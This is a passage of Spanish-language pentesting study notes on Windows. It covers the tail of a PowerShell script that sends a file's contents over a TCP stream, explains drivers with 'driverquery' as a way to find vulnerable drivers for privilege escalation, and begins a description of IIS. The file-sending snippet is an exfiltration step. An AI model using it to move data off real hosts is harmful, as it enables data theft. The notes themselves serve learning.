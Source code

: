```powershell
Write-Host "`t[i] Converting file $pathFile to bytes...`n"
$bytesToSend = [System.Text.Encoding]::ASCII.GetBytes($fileContent)
$stream.Write($bytesToSend, 0, $bytesToSend.Length)
Write-Host "`t[+] File successfully sended.`n`n"

# Close the network stream and TCP client
$stream.Close()
$client.Close()
```

----
# Drivers

Los *drivers* son componentes de software que permiten al sistema operativo comunicarse con el hardware conectado al host. Estos suelen estar escritos en lenguajes de programación como C o C++ y actuan como intermediarios, tranduciendo comandos desde el sistema a instrucciones que el componente de hardware pueda entender y viceversa. Sin los drivers, el sistema operativo no estaría en capacidades de controlar el hardware de manera efectiva.
###### Tipos de Drivers

- **Kernel-Mode Drivers**: Estos drivers se ejecutan en modo kernel, lo que permite acceso directo a los recursos de hardware y proporciona capacidades de alto rendimiento. Son escenciales para funciones críticas del sistema y son cargados durante el proceso de booteo.
- **User-Mode Drivers**: Estos drivers se ejecutan en modo usuario y contienen menos privilegios en comparación a lo drivers ejecutandos en Kernel-Mode. Estos proveen una interfaz entre la aplicación y el dispositivo de hardware, permitiendo a nivel de usuario interactuar con el hardware directamente a través del sistema operativo.

Si bien el térnimo *drivers* se suele ligar mucho a **Windows** ya que escuchamos mucho hablar de estos en ecosistemas Windows, es importante aclarar que estos también juegan un papel fundamental en sistemas basados en *Linux*, la diferencia es que en estos últimos los drivers suelen estar integrados en el kernel y son automaticamente manejados y actualizados como parte del ecosistema más amplio del kernel y de los paquetes de software.

```powershell
# List all drivers on our host
driverquery
```

Esto puede ser interesante para revisar dado que puede que se cuente con un driver desactualizado y vulnerable el cual nos pueda dar la posibilidad de llevar a cabo una [[0. Enumerating possible privesc]]. 

----
# IIS - Windows Web Server

El *IIS*, también conocido como *Internet Information Services* o previamente como *Internet Information Server*, es un web server para el hosteo de cualquier recurso en la web de manera flexible, segura y manejable. Es un producto central de Windows que corre en el sistema operativo Windows. IIS es una plataforma web unificada que integra IIS, ASP.NET, servicios FTP, PHP y WCF (Windows Communication Foundation).
